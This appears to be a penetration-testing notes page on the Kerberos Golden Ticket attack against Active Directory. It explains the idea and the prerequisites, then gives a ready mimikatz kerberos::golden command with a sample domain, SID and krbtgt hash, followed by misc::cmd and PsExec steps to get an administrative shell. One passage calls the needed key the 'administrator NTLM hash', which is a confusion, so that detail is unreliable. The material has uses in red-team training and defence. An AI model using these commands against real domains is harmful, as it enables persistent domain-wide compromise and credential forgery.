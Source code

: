# Golden Ticket

## <mark style="color:red;">Intro</mark>

#### <mark style="color:green;">Golden Ticket Attack is a example of the Pass the Ticket Attack. the most infamous Kerberos attack is known as the Golden Ticket which obviously is a Kerberos ticket but with some differences.</mark>

{% hint style="warning" %}
in order to create a valid TGT (with a valid PAC) we would require the target LT key and the KDC LT key. in case of a TGT these keys are identical (krbtgt). we would thus have to obtain the NTLM hash of the krbtgt account (RC4) or the AES key.
{% endhint %}

when we would use a golden ticket the first interaction is a TGS-REQ for a service ticket using the forged TGT (golden ticket). there is no prior credential submission or `AS_REQ/AS-REP`.

#### <mark style="color:green;">the difference between a golden ticket and other tickets (including the silver ticket ) is:</mark>

1. its created without any interaction with the DC. this is possible because kerberos is a stateless protocol so it does not keep track of all previously created TGTs.
2. it would require us to obtain the KDC long-term key (which is not easy to get)
3. its typically a TGT for an administrative account (RID 500 in a domain or domain administrator)
4. its typically valid for a long time (10 years by default)

## <mark style="color:red;">Creating a Golden Ticket</mark>

**with mimikatz we can create a Golden Ticket if we have the following information:**

* KDC LT key (e.g: krbtgt NTLM hash)
* Domain admin account name
* SID of domain admin account

#### <mark style="color:green;">all of these values can be obtained by any user in the domain except for KDC LT key.</mark>

assuming that we got access to administrator NTLM hash, we can move on with the attack.

```
kerberos::golden /user:client1 /domain:megacorp.local /sid:S-1-5-21-4081310294-3909750490-1069944866 /krbtgt:43e603fc59a5705d8a9f7c1c0a45b85e /id:500 /ptt
```

![](<../../../.gitbook/assets/image (200) (1).png>)

now we can get a shell with admin privileges:

```
misc::cmd
```

![](<../../../.gitbook/assets/image (201).png>)

or using psexe:

```
PsExec64.exe \\192.168.1.105 cmd.exe
```
